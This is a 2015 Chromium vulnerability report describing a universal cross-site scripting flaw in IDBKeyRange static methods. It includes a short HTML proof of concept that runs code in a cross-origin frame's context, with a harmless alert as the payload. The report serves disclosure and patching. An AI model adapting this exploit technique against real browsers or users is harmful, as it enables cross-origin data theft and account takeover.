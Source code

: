 # Universal XSS using IDBKeyRange static methods

### Reported by <mailto:marius.mlynski@gmail.com>, May 31 2015

### VULNERABILITY DETAILS

Calling an object-returning static method with a cross-origin thing passed as |this| yields an object wrapped in the cross-origin scope. This is because FunctionCallbackInfo ends up with a cross-origin holder, and the holder acts as a creation context for the return value in blink::ScriptWrappable::wrap.

#### VERSION

Chrome 43.0.2357.81 (Release)
Chrome 44.0.2403.18 (Beta)
Chrome 45.0.2414.0 (Dev)
Chromium 45.0.2419.0 compiled today

#### REPRODUCTION CASE

```html
<script>
var i = document.documentElement.appendChild(document.createElement('iframe'));
i.onload = function() {
  IDBKeyRange.only.call(frames[0],0).constructor.constructor('alert(location)')();
}
i.src = 'data:text/html,victim';
</script>
```

Link: https://bugs.chromium.org/p/chromium/issues/detail?id=494640
